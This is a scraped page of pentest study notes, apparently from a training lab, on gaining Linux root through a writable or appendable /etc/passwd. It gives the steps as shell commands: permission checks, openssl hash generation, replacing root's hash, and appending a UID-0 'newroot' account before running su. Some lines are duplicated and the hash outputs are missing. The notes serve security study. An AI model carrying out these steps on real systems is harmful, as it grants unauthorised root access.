






/etc/passwd
Where are stored the passwords hashes in Linux: description of /etc/passwd and /etc/shadow
/etc/passwd
For backwards compatibility, if the second field of a user row in /etc/passwd contains a password hash, it takes precedent over the hash in /etc/shadow
• writable → enter a new password hash for the root user, and then use the su command to switch to the root user.
0) Check permissions
target@debian:~$ ls -l /etc/passwd
target@debian:~$ ./lse.sh -l 1 #linux smart enumeration tool
target@debian:~$ ./lse.sh -l 1 #linux smart enumeration tool


1)generate an hash of a password we can use openssl. With DES or MD5 algorithms(In red the Salt)
target@debian:~$ openssl passwd "abc" #hash with DES algorithm
target@debian:~$ openssl passwd "abc" #hash with MD5 algorithm
target@debian:~$ openssl passwd "abc" #hash with MD5 algorithm

2) Edit the /etc/passwd file and enter the hash in the second field of the root user
target@debian:~$ vim /etc/passwd
# i --> insert
#Esc --> esc from insert
#:w --> write(save)
#:q --> exit
# i --> insert
#Esc --> esc from insert
#:w --> write(save)
#:q --> exit
3) access to the root user
target@debian:~$ su

• appendable → create a new user but assign to it the root user ID (0). This works because Linux allows multiple entries for the same user ID, as long as the usernames are different
0) If writable + append permission, mean that we can only append lines to the file
target@debian:~$ ls -l /etc/passwd #writable?
target@debian:~$ lsattr /etc/passwd #appendable?
target@debian:~$ lsattr /etc/passwd #appendable?


*To set and unset append mode to a file, root privileges are needed with the command "chattr"
targetRoot@debian:~$ chattr +a /etc/passwd #set append
targetRoot@debian:~$ chattr -a /etc/passwd #unset append
targetRoot@debian:~$ chattr -a /etc/passwd #unset append
1) append a new row to /etc/passwd to create an alternative root user
target@debian:~$ echo "newroot:LuFpseshVUYeU:0:0:root:/root:/bin/bash" >> /etc/passwd
2) access to the newroot user
target@debian:~$ su - <newUserCreated>
